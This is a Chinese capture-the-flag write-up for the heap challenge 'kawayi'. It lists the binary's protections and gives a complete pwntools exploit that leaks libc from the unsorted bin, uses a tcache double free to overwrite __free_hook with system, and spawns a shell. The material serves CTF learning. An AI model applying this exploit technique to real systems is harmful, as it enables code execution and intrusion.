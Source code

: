 # kawayi 

## 文件属性

|属性  |值    |
|------|------|
|Arch  |x64   |
|RELRO |Full  |
|Canary|on    |
|NX    |on    |
|PIE   |on    |
|strip |no    |
|libc  |2.27-3ubuntu1.6|

## 解题思路

标准菜单题  
允许申请0x430大的unsorted bin，有double free和uaf，考虑通过释放unsorted bin拿到libc，
然后打tcache dup写free_hook为system，再释放`b'/bin/sh\0'`的chunk就可以拿shell

## EXPLOIT

```python
from pwn import *
context.terminal = ['tmux','splitw','-h']
GOLD_TEXT = lambda x: f'\x1b[33m{x}\x1b[0m'

def payload(lo:int):
    global sh
    if lo:
        sh = process('./kawayi')
        if lo & 2:
            gdb.attach(sh)
    else:
        context.proxy = (socks.SOCKS5, '127.0.0.1', 1080)
        sh = remote('192.168.16.186', 8888) 
    libc = ELF('./libc.so.6') 

    def addn(idx:int, size:int, cont:bytes, hooked:bool=False): 
        sh.sendlineafter(b'exit', b'1')
        sh.sendlineafter(b'index', str(idx).encode())
        sh.sendlineafter(b'size', str(size).encode())
        sh.sendafter(b'talk', cont)

    def edit(idx:int, cont:bytes):
        sh.sendlineafter(b'exit', b'3')
        sh.sendlineafter(b'index', str(idx).encode())
        sh.sendafter(b'write', cont)

    def deln(idx:int):
        sh.sendlineafter(b'exit', b'2')
        sh.sendlineafter(b'index', str(idx).encode())

    def show(idx:int) -> bytes:
        sh.sendlineafter(b'exit', b'4')
        sh.sendlineafter(b'index?\n\n', str(idx).encode())
        return sh.recvline()

    def eout():
        sh.sendlineafter(b'exit', b'5')

    addn(0, 0x410, b' ')
    addn(1, 0x20, b' ') # prevent chunk 0 being merged into top chunk
    deln(0)
    ret = show(0)

    dumpArena = libc.symbols['__malloc_hook'] + (libc.symbols['__malloc_hook'] - libc.symbols['__realloc_hook']) * 2
    mainArena = u64(ret[:6] + b'\0\0') - 0x60 # sub unsorted bin offset
    libcBase = mainArena - dumpArena
    success(GOLD_TEXT(f'Leak libc: {hex(libcBase)}'))
    freeHook = libcBase + libc.symbols['__free_hook']
    system = libcBase + libc.symbols['system']

    # tcache dup
    deln(1)
    edit(1, p64(freeHook) + p64(0))
    deln(1)
    edit(1, p64(freeHook) + p64(0))
    addn(2, 0x20, p64(system))
    addn(3, 0x20, p64(system))
    # get shell
    edit(1, b'/bin/sh\0')
    deln(1)

    sh.clean()
    sh.interactive()
```

> 最后一分钟交的flag，真是蓟县
